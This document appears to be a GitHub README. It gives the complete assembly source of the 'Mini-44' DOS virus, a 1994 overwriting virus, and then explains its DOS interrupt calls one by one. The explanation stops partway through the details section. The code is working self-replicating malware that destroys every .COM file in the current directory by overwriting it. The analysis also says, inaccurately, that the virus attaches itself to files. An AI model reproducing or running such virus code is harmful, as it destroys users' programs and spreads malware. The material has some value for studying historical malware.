# Mini-44 DOS Virus

## Source Code
```
;44 byte virus, destructively overwrites all the COM files in the
;current directory.
;
;(C) 1994 American Eagle Publications, Inc.

.model small
.code

FNAME   EQU     9EH             ;search-function file name result

ORG     100H

START:
        mov     ah,4EH          ;search for *.COM (search first)
        mov     dx,OFFSET COM_FILE
        int     21H

SEARCH_LP:
        jc      DONE
        mov     ax,3D01H        ;open file we found
        mov     dx,FNAME
        int     21H

        xchg    ax,bx           ;write virus to file
        mov     ah,40H
        mov     cl,42           ;size of this virus
        mov     dx,100H         ;location of this virus
        int     21H

        mov     ah,3EH          ;close file
        int     21H

        mov     ah,4FH          ;search for next file
        int     21H
        jmp     SEARCH_LP

DONE:
        ret                     ;exit to DOS

COM_FILE DB      '*.COM',0      ;string for COM file search

END START
```
## Analyze

### Setup and Initial Search:
* .model small: This directive tells the assembler to use the small memory model, which is common in DOS where the code and data segments are expected to fit within a single 64KB segment.
* FNAME EQU 9EH: This sets the label FNAME to the hexadecimal value 9EH, which is used as an offset for where the file name is stored in memory after a file search.
* ORG 100H: This sets the code's origin to address 0100H, a common practice for DOS .COM programs, as the first 256 bytes are reserved for the Program Segment Prefix (PSP).

### File Search and Opening:
* The program begins by searching for .COM files using DOS interrupt 21H with function 4EH (find first file).
* The file name pattern *.COM is used for the search.
* If a file is found, the program then opens it using function 3D01H (open file for writing).

### Modifying the File:
* The program appears to write 42 bytes (CL = 42) of data from its own code (DS:0100H) into the beginning of the found file. This is typically characteristic of a computer virus that replicates by attaching itself to other executable files.
* After writing, it closes the file using function 3EH (close file handle).

### Continuing the Search:
* The program then searches for the next .COM file using function 4FH.
* If another file is found, the loop continues; otherwise, the program exits.

### Termination:
* The program ends with a ret instruction, returning control to DOS.

## Details

### Initial Setup
```
.model small
```
* This tells the assembler to use a small memory model, suitable for DOS programs where both code and data segments are combined and should not exceed 64KB.
```
FNAME   EQU     9EH             ;search-function file name result
```
* FNAME is defined as a constant with the value 9EH. This is used as an offset in the Program Segment Prefix (PSP) where DOS stores the filename of the last file found.
```
ORG     100H
```
* Sets the origin of the code to memory address 0100H. DOS .COM programs start at this offset, following the 256-byte PSP.

### File Search and Opening
```
START:
        mov     ah,4EH          ;search for *.COM (search first)
        mov     dx,OFFSET COM_FILE
        int     21H
```
* Sets up a call to DOS interrupt 21H with function 4EH (find first file matching a pattern). The pattern *.COM is provided by the address in DX.
```
SEARCH_LP:
        jc      DONE            ;jump to DONE if no file is found
        mov     ax,3D01H        ;open file for writing
        mov     dx,FNAME
        int     21H
```


```
```



